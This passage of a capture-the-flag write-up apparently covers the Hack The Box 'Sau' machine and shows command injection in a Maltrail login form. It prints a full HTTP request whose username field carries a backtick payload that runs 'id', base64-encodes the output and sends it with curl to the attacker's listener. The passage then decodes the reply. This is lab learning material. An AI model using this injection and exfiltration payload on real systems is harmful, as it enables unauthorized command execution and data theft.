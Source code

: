 <p align="center">
  <img src="./screenshots/maltrail_burp.png" alt="maltrail_burp"/>
</p>

> To check the vulnerable `username` parameter, I will send a simple `POST` request with the embedded `id` command in `base64` encoding and via `xargs` I will redirect the
> result of the encoded response to my server:

```http

POST /0fhwi18/login HTTP/1.1
Host: sau.htb:55555
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/plain, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 103
Origin: http://sau.htb:55555
Connection: keep-alive
Referer: http://sau.htb:55555/0fhwi18/
Priority: u=0

username=`id | base64 | xargs -I{} curl http://10.10.14.15:1111/{}`

```
> Result:

<p align="center">
  <img src="./screenshots/pytohn_server_answer.png" alt="python_server_answer"/>
</p>

> decode answer:

```bash

echo "dWlkPTEwMDEocHVtYSkgZ2lkPTEwMDEocHVtYSkgZ3JvdXBzPTEwMDEocHVtYSkK" | base64 -d

uid=1001(puma) gid=1001(puma) groups=1001(puma)

```
> Okay. `command injection` vulnerability is **proven**.
